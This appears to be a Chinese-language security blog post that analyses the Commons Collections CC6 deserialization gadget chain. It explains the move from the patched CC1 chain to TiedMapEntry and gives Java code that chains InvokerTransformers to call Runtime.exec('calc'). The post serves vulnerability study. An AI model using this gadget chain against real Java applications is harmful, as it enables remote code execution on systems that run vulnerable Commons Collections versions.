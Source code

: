 ```yaml
---
title: "CC重启之类URLDNS的CC6"
onlyTitle: true
date: 2024-7-20 11:49:01
categories:
- java
- CC
tags:
- CC
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B889.jpg

---
```




## CC6

在上一篇文章的分析中

https://godownio.github.io/2024/07/13/cc-chong-qi-zhi-ji-yu-dong-tai-dai-li-gou-zao-de-lazymap-ban-cc1/

最后提到因为sun.reflect.annotation.AnnotationInvocationHandler在jdk8u71版本的修复，TransformedMap和LazyMap构造的CC1在jdk8u71及之后都不能使用了。

那我们尝试构造一个只依赖Common collections的链，无须使用jdk自带的包，这样只要Common collections处于漏洞版本（<=3.2.1），那就可以进行攻击。

现在我们抛弃sun包下的类进行构造，回想我们之前说到的有很多地方都调用了get方法，LazyMap的get又何必非要用AnnotationInvocationHandler.invoke去触发。

### TiedMapEntry

官方CC6给出的下一个调用是TiedMapEntry#getValue()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717202349580.png)

同时注意到TiedMapEntry有hashCode函数，而且在hashCode中调用了getValue

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240717202754178.png)



所以我们可以用如下代码触发：

```java
public static void main(String[] args) throws Exception {
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
    HashMap<Object, Object> map = new HashMap<>();
    Map lazyMap = LazyMap.decorate(map, chainedTransformer);
    TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");
    tiedMapEntry.hashCode();
}
```
